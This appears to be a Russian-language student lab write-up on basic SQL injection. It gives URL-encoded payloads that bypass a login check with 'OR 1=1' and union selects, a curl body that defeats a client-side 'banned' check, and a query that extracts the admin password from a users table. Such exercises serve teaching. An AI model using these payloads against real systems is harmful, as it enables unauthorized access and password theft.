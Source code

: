 # Лабораторная работа 3
Примитивные SQL инъекции.

## Задание 1
### В исходниках найти "защиту" и обойти её двумя способами:
Можно войти под произвольным логином:

    %27 OR 1=1 union select %27logintest%27 order by 1 desc; --
Или использовать кодирование кавычек в альтернативный формат:

    %27 OR 1=1; --


## Задание 2
### Обойти клиентскую защиту с помощью ``curl``:
    --data-raw "name=MishaS&pass=qwerty12345asdfg&banned=true"

## Задание 3
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).
    %27 or 1=1; --

## Задание 4
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД.
    %27 union select pass from users where name = %27admin%27--
